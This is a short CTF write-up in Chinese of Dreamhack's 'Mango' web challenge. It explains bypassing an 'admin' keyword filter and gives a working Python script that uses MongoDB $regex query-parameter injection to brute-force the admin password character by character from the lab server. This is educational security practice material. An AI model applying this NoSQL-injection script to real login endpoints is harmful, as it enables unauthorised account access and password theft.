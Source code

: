 ```yaml
---
title: Mango
published: 2025-02-20
updated: 2025-07-09
description: "Dreamhack"
image: ""
tags: ["CTF Writeup", "Dreamhack", "Web"]
category: "Dreamhack"
draft: false
---
```


# Mango

題目

> 이 문제는 데이터베이스에 저장된 플래그를 획득하는 문제입니다.  
> 플래그는 admin 계정의 비밀번호 입니다.  
> 플래그의 형식은 DH{...} 입니다.  
> {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}

進來首先會看到

![home](/assets/dreamhack/MangoDH/image.png)

按照題目給的輸入 `/login?uid=admin&upw=DH{32alphanumeric}` 會發現被過濾掉了

![admin](/assets/dreamhack/MangoDH/image-1.png)

題目禁止掉了關於 admin 之類的字樣

![ban](/assets/dreamhack/MangoDH/image-2.png)

用 script 去用正則表示法跳過 DH 檢查猜密碼

```py
import requests

url = 'http://host1.dreamhack.games:16943/login?uid[$regex]=ad.in&upw[$regex]=D.*{'
pw = ''
alphabet = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ{}'

while True:
    for c in alphabet:
        new_pw = pw + c + '.*'
        print(new_pw)
        new_url = url + new_pw
        response = requests.get(new_url, timeout=10)
        if 'admin' in response.text:
            pw = new_pw[:-2]
            break
        elif 'err' in response.text:
            print('error:', new_pw)
            pw = '.*' + c
            break
        if c == '}':
            print('flag:', 'DH{' + pw)
            exit()
    else:
        break

```

![flag](/assets/dreamhack/MangoDH/image-3.png)
